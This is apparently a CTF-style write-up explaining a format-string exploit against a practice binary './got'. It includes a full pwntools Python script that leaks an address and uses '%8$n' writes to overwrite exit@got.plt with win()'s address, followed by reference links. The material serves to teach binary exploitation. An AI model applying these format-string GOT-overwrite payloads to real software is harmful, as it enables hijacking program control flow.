 The form for the input that will modify the GOT address for the vulnerable program is `AA<memory address>%<number>p%8$n`. Some arbitrary number of spaces are printed out using `%<number>p` in order to control the output of `%n`. Since `<memory address>` should be the eighth value on the stack, doing `%8$n` will replace the value at `<memory address>` with `<number>+6`.

This input will be used twice: Once to write out the low-end bytes of the address of `win()` to the low-end bytes of `exit@got.plt`, and another time to write out the high-end bytes of the address of `win()` to the high-end bytes of `exit@got.plt`. Below is the entire exploit written out in Python. The value of `<number>` will be either the low-end bytes of the address of `win()` or the high-end bytes of the address of `win()`, and it will be in base 10 since `printf()` requires a base 10 integer for the format string to work.

Since `<memory address>` is four bytes, and there are another two bytes of A's in the beginning, the program will print six bytes before it reaches `%<number>p`. This means that six should be subtracted from number in order to have the exact address be printed out.

```python
#!/usr/bin/env python3
from pwn import *

# Create a new process
p = process("./got")

# Calculate the address of the GOT entry for exit()
p.sendline("%3$p")
leaked_addr = int(p.recvline(), 16)
exit_got_addr_low = p32(leaked_addr + 0x2e0b)
exit_got_addr_high = p32(leaked_addr + 0x2e0d)

# Find the address of win()
win_addr = leaked_addr - 0x44

# Convert the jump address into two base 10 integers
win_addr_low = 0x0000ffff & win_addr
win_addr_high = (0xffff0000 & win_addr) >> 16
win_addr_low -= 6
win_addr_high -= 6
win_addr_low = str(win_addr_low).encode('ascii')
win_addr_high = str(win_addr_high).encode('ascii')

# Trigger the GOT overflow
p.sendline(b"AA" + exit_got_addr_low + b"%" + win_addr_low + b"p" + b"%8$n")
p.recvline()
p.sendline(b"AA" + exit_got_addr_high + b"%" + win_addr_high + b"p" + b"%8$n")
p.recvline()
p.sendline("quit")
p.recvline()
p.interactive()
```

Extra resources:
1. https://www.codeproject.com/articles/1032231/what-is-the-symbol-table-and-what-is-the-global-of
2. https://cs155.stanford.edu/papers/formatstring-1.2.pdf
3. https://www.ret2rop.com/2018/10/format-strings-got-overwrite-remote.html
4. https://ctf101.org/binary-exploitation/relocation-read-only/

{% include related_posts.html %}
